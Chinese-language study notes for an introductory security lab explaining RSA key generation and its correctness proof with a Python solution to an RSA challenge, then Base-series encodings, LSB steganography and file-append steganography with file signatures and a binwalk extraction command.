假设 Alice 想要通过不可靠的媒体接收 Bob 的私人消息。她可以用以下的方式来产生一个公钥和一个私钥：
-
选择素数：随意选择两个大的素数 \(p\) 和 \(q\)，\(p \neq q\)，计算：
\[N = pq\] -
计算欧拉函数：根据欧拉函数，求得 \(r\)：
\[r = \varphi(N) = \varphi(p) \times \varphi(q) = (p - 1)(q - 1)\] -
选择公钥指数：选择一个小于 \(r\) 的整数 \(e\)，使 \(e\) 与 \(r\) 互质。并求得 \(e\) 关于 \(r\) 的模逆元，命名为 \(d\)（即求 \(d\) 令 \(ed \equiv 1 \pmod r\)）。
注：模逆元存在，当且仅当 \(e\) 与 \(r\) 互质。
-
销毁记录：将 \(p\) 和 \(q\) 的记录销毁。
最终，(N, e) 是公钥，(N, d) 是私钥。Alice 将她的公钥 \((N, e)\) 传给 Bob，而将她的私钥 \((N, d)\) 藏起来。
2. 加密消息¶
假设 Bob 想给 Alice 送消息 \(m\)，他知道 Alice 产生的 \(N\) 和 \(e\)。
-
消息转换：他使用事先与 Alice 约好的格式将 \(m\) 转换为一个小于 \(N\) 的非负整数 \(n\)。例如：他可以将每一个字转换为这个字的 Unicode 码，然后将这些数字连在一起组成一个数字。
-
加密公式：用下面这个公式他可以将 \(n\) 加密为 \(c\)：
\[c = n^e \pmod N\]
这里的 \(c\) 可以用模幂算法快速求出来。Bob 算出 \(c\) 后就可以把它传递给 Alice。
3. 解密消息¶
Alice 得到 Bob 的消息 \(c\) 后就可以利用她的密钥 \(d\) 来解码：
与 Bob 计算 \(c\) 类似，这里的 \(n\) 也可以用模幂算法快速求出。得到 \(n\) 后，她可以将原来的信息 \(m\) 重新复原。
4. 解码原理与证明¶
解码的原理是基于以下同余等式：
已知 \(ed \equiv 1 \pmod r\)，即 \(ed = 1 + h\varphi(N)\)（其中 \(h\) 为整数）。那么有：
为了证明 \(n^{ed} \equiv n \pmod N\)，分两种情况讨论：
-
情况一：若 \(n\) 与 \(N\) 互素
由欧拉定理可得 \(n\varphi(N) \equiv 1 \pmod N\)，因此：
\[n^{ed} \equiv n\left(n\varphi(N)\right)^h \equiv n(1)^h \equiv n \pmod N\] -
情况二：若 \(n\) 与 \(N\) 不互素
由于 \(N = pq\) 且 \(p, q\) 为不同的素数，不失一般性，可设 \(n = ph\)（即 \(n\) 是 \(p\) 的倍数，且 \(\gcd(n, q) = 1\)）。同时由 \(ed - 1 = k(q - 1)\)（其中 \(k\) 为整数），得：
-
对于模 \(p\)：
\[n^{ed} = (ph)^{ed} \equiv 0 \equiv ph \equiv n \pmod p\] -
对于模 \(q\)：
\[n^{ed} = n^{ed-1}n = n^{k(q-1)}n = (n^{q-1})^kn \equiv 1^kn \equiv n \pmod q\]
由于 \(p\) 和 \(q\) 是互质的素数，根据中国剩余定理，由 \(n^{ed} \equiv n \pmod p\) 和 \(n^{ed} \equiv n \pmod q\) 可得：
\[n^{ed} \equiv n \pmod N\] -
故 \(n^{ed} \equiv n \pmod N\) 得证。
RSA 代码实现¶
p = 0x848cc7edca3d2feef44961881e358cbe924df5bc0f1e7178089ad6dc23fa1eec7b0f1a8c6932b870dd53faf35b22f35c8a7a0d130f69e53a91d0330c0af2c5ab
q = 0xa0ac7bcd3b1e826fdbd1ee907e592c163dea4a1a94eb03fd4d3ce58c2362100ec20d96ad858f1a21e8c38e1978d27cd3ab833ee344d8618065c003d8ffd0b1cb
n = p * q
print(n)
r = (p - 1) * (q - 1)
# 选择一个小于r的整数e，使e与r互质，求解e关于r的模逆元d
# 普遍选择65537（即0x10001）
e = 0x10001
# pow(base, exponent, modulus)函数可以计算base的exponent次方对modulus取模的结果，同时也可以用来求解模逆元
d = pow(e, -1, r)
print(f"公钥（n,e）: ({n}, {e})")
print(f"私钥（n,d）: ({n}, {d})")
message = "Hatsune Miku"
m = int.from_bytes(message.encode(), byteorder='big')
if m >= n:
raise ValueError("错误：明文大整数 m 超过了限制范围 N，请更换更大的质数 p 和 q！")
# 加密过程
c = pow(m, e, n)
print(f"密文 c: {c}")
# 解密过程
m_decrypted = pow(c, d, n)
print(int.to_bytes(m_decrypted, (m_decrypted.bit_length() + 7) // 8, 'big'))Lab 0 RSA 题目解答¶
# 已知p和q，计算出n，然后计算出r，最后计算出d，然后就可以解密了
p = 0x848cc7edca3d2feef44961881e358cbe924df5bc0f1e7178089ad6dc23fa1eec7b0f1a8c6932b870dd53faf35b22f35c8a7a0d130f69e53a91d0330c0af2c5ab
q = 0xa0ac7bcd3b1e826fdbd1ee907e592c163dea4a1a94eb03fd4d3ce58c2362100ec20d96ad858f1a21e8c38e1978d27cd3ab833ee344d8618065c003d8ffd0b1cb
n = p * q
e = 0x10001
c = 0x39f68bd43d1433e4fcbbe8fc0063661c97639324d63e67dedb6f4ed4501268571f128858b2f97ee7ce0407f24320a922787adf4d0233514934bbd7e81e4b4d07b423949c85ae3cc172ea5bcded917b5f67f18c2c6cd1b2dd98d7db941697ececdfc90507893579081f7e3d5ddeb9145a715abc20c4a938d32131013966bea539
r = (p - 1) * (q - 1)
d = pow(e, -1, r)
m = pow(c, d, n)
print(int.to_bytes(m, (m.bit_length() + 7) // 8, 'big'))
Misc Lab 0¶
Base 系列编码¶
什么是 Base 系列编码？¶
- 核心本质：它不是加密算法，而是一种编码机制（或者说"文本数据表示法"）。
- 为什么需要它？ 计算机中很多传输通道（如邮件、早期的网页、URL）只支持传输纯文本（可视的 ASCII 字符）。如果直接传输图片、视频或复杂的二进制字节码，有些特殊字符（如换行符、控制字符）可能会被路由器或协议误吞或篡改。
- 解决方案：把任意的二进制数据（包含不可见字符），映射到一组安全的、人类可见的字符集（如英文字母、数字）中进行传输。
核心分类¶
| 编码名称 | 字符集大小 | 包含的典型字符 | 末尾特征 | 常见应用场景 |
|---|---|---|---|---|
| Base16 | 16 | 0-9, A-F (即十六进制) |
无 | MD5/SHA 摘要结果展示、真彩颜色值 |
| Base32 | 32 | A-Z, 2-7 |
经常有 = |
某些特定的密钥交换、BT 种子磁力链接 |
| Base58 | 58 | 去掉了易混淆的 0, O, I, l 以及 +, / |
无 = |
区块链/比特币（Bitcoin） 地址 |
| Base64 | 64 | A-Z, a-z, 0-9, +, / |
常见 = 或 == |
网页图片内嵌、邮件附件传输 (MIME) |
| URL Base64 | 64 | 把 + 和 / 替换为了 - 和 _ |
通常去掉 = |
把参数安全地放在 URL 链接中传输 |
| Base85/Ascii85 | 85 | 包含大量英文标点符号 (如 ;, <, !, @) |
视变体而定 | PDF文件压缩、Git 内部数据存储 |
根据上述表格中的特征可以判断出每个步骤用哪种 base 编码形式进行解码~
核心原理（以 Base64 为例）¶
- 二进制分组：计算机中 1 个字节 = 8 个比特（bit）。Base64 每次取 3个字节（即 \(3 \times 8 = 24\) 个比特）。
- 重新切分：将这 24 个比特重新切分成 4个小组，每组 6 个比特（\(4 \times 6 = 24\)）。
- 查表映射：6 个比特的取值范围是 \(0 \sim 63\)（共 \(2^6 = 64\) 个可能）。刚好对应 Base64 的字符表：
A-Z、a-z、0-9、+、/。 - 末尾补位（Padding）：如果最后一组数据不够 3 个字节怎么办？
- 剩 2 字节：转成 3 个 Base64 字符，末尾补 1 个
= - 剩 1 字节：转成 2 个 Base64 字符，末尾补 2 个
= - 这也是为什么Base64经常结尾有
=的原因。
- 剩 2 字节：转成 3 个 Base64 字符，末尾补 1 个
空间代价：因为 3 字节变成了 4 字节，所以 Base64 编码后，文件体积会膨胀约 33%。
Challenge 1 解题¶

LSB 隐写 & 文件附加隐写¶
Challenge 2 解题¶



上述破译图片来自 https://www.aperisolve.com/
LSB 隐写原理¶
LSB 隐写（最低有效位隐写）是一种将秘密信息藏在图片像素里的技术。它的最大特点是肉眼不可识别但是不抗压缩。
-
核心原理：改动"最不重要"的那一位
- 计算机用 8位二进制（如
10110100）来表示红、绿、蓝通道的颜色深浅（\(0 \sim 255\)）。 - 最低有效位（LSB） 指的是二进制的最后一位。
- 如果把最后一位从
0改成1，颜色的数值仅仅改变了 1。这种极其微弱的色差，人类肉眼绝对无法察觉。
- 计算机用 8位二进制（如
-
隐写与提取过程
- 隐写过程：把秘密信息拆成二进制的
0和1，依次替换掉图片中每个像素通道的最后一位（即变成黑色或白色）。 - 读取过程：用工具（如 StegSolve）把图片所有像素通道的最后一位依次提取出来，重新组合，就能拼回原始的秘密文本。
- 隐写过程：把秘密信息拆成二进制的
文件附加隐写¶

依旧来自 https://www.aperisolve.com/
文件附加隐写（文件拼接）是指将秘密文本或文件，强行粘贴在正常图片的数据末尾。因为操作系统读到图片的"结束标记"就会停止渲染，所以多余的数据在肉眼下是完全隐形的。
常见文件头/尾¶
| 图片格式 | 常见文件头 | 常见文件尾 |
|---|---|---|
| PNG | 89 50 4E 47 ... (包含 PNG) |
49 45 4E 44 AE 42 60 82 (即 IEND) |
| JPG | FF D8 FF |
FF D9 |
| ZIP | 50 4B 03 04 (即 PK) |
50 4B 05 06 |
提取方法¶
- 尾部观察：直接用记事本、十六进制编辑器（如 010 Editor）打开图片，拉到最底部。在标准的结束标记（如
IEND）后面，经常能直接看到 Flag。 - 自动化分离：如果文件尾部藏的不是文本，而是另一个压缩包，在 Linux 下直接使用：
binwalk -e image.png